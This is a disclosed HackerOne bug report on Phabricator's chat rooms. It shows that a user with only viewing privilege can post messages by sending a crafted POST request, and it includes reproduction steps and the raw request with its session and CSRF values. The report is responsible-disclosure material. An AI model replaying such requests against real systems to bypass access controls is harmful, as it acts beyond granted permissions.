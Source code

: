 # User with only Viewing Privilege can send message to Room

## Report Details
- **Report ID**: 202499
- **URL**: https://hackerone.com/reports/202499
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-02-01T00:53:23.818Z
- **Disclosed**: 2017-02-01T03:41:01.357Z

## Reporter
- **Username**: lucasveigaf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
Hey, mongoose

When the owner of a chat room gives any user Viewing Privilege, that user can then send messages to the room. As expected, there's no form to send messages when the user access the room since in theory it shouldn't be possible. However, messages via POST requests can still be sent and processed.

The Severity of this issue is marked as low, but it still can be a serious problem depending on the scenario.

Steps to reproduce
====================

1. Create a new room
2. Give **only** Viewing Privilege to a user or all users
3. Send the following POST as the user with Viewing Privilege only
4. Refresh browser and see the message sent

```
POST /conpherence/update/1/ HTTP/1.1
Host: 192.168.25.10
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Phabricator-Csrf: B@6uaixbh422c60ea95853fee4
X-Phabricator-Via: /
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Cookie: phsid=35yvcfc22xj27th6hwawazghx5cnritidfccxdhh; phusr=lucasveiga
Connection: close

__form__=1&action=message&text=TESTTEXT&latest_transaction_id=10&__wflow__=true&__ajax__=true&__metablock__=6
```

This isn't session related since logging in and out doesn't affect anything. Just replace "X-Phabricator-Csrf" and "phsid" with the new ones and the message still will be sent.

Let me know if you need further information. 

## Attachments
No attachments
